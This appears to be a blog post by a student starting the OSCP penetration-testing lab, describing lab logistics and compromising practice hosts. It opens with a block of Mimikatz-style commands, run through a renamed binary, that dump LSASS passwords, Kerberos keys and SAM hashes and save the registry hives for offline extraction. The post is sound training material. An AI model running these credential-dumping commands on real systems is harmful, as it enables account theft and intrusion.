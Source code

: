 #### How to use:

{% highlight shell-session %}
-- dump clear-text passwords from LSASS process:
C:\\> jollykatz32.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"

-- Steal users credentials until they reset their passwords:
C:\\> jollykatz32.exe "privilege::debug" "sekurlsa::ekeys" "exit"

-- Dump LM and NTLM hashes from SAM:
C:\\> jollykatz32.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"

-- read SAM file from /repair or ntbackup files:
C:\\> reg save HKLM\\SYSTEM SystemBkup.hiv
C:\\> reg save HKLM\\SAM SamBkup.hiv
(Or use Volume Shadow Copy / BootCD to backup these files or get them from the repair folder![](http://cdn.techexams.net/images/smilies/icon_smile.gif "Smile")
C:\\Windows\\System32\\config\\SYSTEM
C:\\Windows\\System32\\config\\SAM
C:\\> jollykatz32.exe "lsadump::sam SystemBkup.hiv SamBkup.hiv" "exit"
{% endhighlight %}

------------------

My lab access starts upcoming Sunday at 10:00 AM Brisbane time, in two days! I feel excited like I was as a kid a few nights before Christmas. The sneak peak during the VPN test confirmed my methodology works for at least one host, and this has provided me with confidence to build on my initial methodology.

Over the last few days I've mostly been working on windows scripts targeting looting and privilege escalation. I haven't put any preparation time in Linux, databases or web applications, so I'll have to get up to speed during lab time. It is my intention to share the scripts I create during my OSCP lab adventures once I confirm they work in the labs.

"How do I ensure that I don't spoil any of the fun for other OSCP students while still sharing my experience in a meaningful and interesting way?". This is a question that I haven't been able to answer yet, but as I move forward into the labs, I am sure I'll find a good balance between providing useful information and spoiling.

Just a quick write up that I've started, the email was received at exactly 10:00 AM this morning, so it must be an automatically scheduled tool that sends the email, no complaints here I was happy to see the email. Username and password to connect via OpenVPN are the same as during the connection test, so if people don't get the email at the right time (due to spam filters, or not being able to access their email account for some reason) then they can probably just login with the same details they used to test the connection. IP hasn't changed either, I still have the same dynamic IP I got when I tested, so that saves me time recompiling some of my scripts.

I took down Alice today. And I reset Bob and had another go at him since I forgot to get the "proof.txt" files. I took down Bob2 as well but that's not really saying much as they are copies. ( there are copies of "popular" machines so you can use either the main one of the secondary, very nice of offset). The proof.txt key is different though, so since I was going for 100% of the labs, I'll need to get all the machines AND their secondaries.

Resetting hosts is a matter of 10 seconds and the image has been reset. This is needed for computers that rely on "risky" exploits like... well when I crashed Alice. You get 8 resets per day, so use them at will.
